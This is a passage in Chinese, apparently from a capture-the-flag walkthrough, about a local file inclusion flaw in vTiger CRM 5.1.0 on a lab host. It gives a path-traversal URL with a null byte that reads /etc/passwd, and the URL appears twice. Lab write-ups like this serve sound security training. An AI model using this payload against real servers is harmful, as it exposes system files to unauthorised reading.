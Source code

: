 ![Screenshot-2019-09-03-at-00.42.56](img/566b09e4ba2ae030f11d29981082098a.png)

您将在终端上得到相同的结果。如果您导航到 **vTiger 5.1.0 -本地文件包含**，您将会看到对该漏洞的描述

![Screenshot-2019-09-03-at-00.43.11](img/26365e7fb73528d37310c765a5fd729d.png)

## **步骤 4b——围绕 vTiger Asterisk 默认凭证进行更多调查**

让我们导航到

```
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

![Screenshot-2019-09-03-at-00.40.38](img/f38f147224f83dddbb39a3c93af0e110.png)

https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
